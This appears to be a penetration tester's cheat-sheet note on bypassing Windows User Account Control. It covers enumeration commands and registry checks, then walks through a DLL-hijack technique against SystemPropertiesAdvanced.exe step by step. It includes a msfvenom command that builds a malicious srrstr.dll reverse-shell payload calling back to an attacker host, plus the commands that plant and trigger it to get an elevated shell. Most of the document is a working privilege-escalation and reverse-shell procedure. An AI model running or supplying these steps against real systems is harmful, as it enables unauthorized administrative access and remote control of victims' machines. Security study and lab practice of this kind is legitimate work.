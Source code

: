 # UAC

Check current user with `whoami /user`

Check admin group membership: `net localgroup administrators`

Check privileges: `whoami /priv`

Check if UAC is enabled:

```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

0x1 is enabled.

Check UAC level:

```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

If its is 0x5 then `Always notify is enabled`

Check windows version with powershell:

```
[environment]::OSVersion.Version
```

Then cross-reference with this [page](https://en.wikipedia.org/wiki/Windows\_10\_version\_history)

Then check UACME.&#x20;

Here trying technique 54:&#x20;

This technique targets the 32-bit version of the auto-elevating binary **SystemPropertiesAdvanced.exe**.

It tries to load a non-existent dll **srrstr.dll**

It follows the following search order:

1. The directory from which the application loaded.
2. The system directory C:\Windows\System32 for 64-bit systems.
3. The 16-bit system directory C:\Windows\System (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.

Check path:&#x20;

`cmd /c echo %PATH%`&#x20;

Then we can place a malicious srrstr.dll DLL to WindowsApps folder.

Malicious srrstr.dll&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll > srrstr.dll
```

Now running the dll we get a normal reverse shell back:

```
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

To get privileged shell back run: `C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe` We get a reverse shell back.
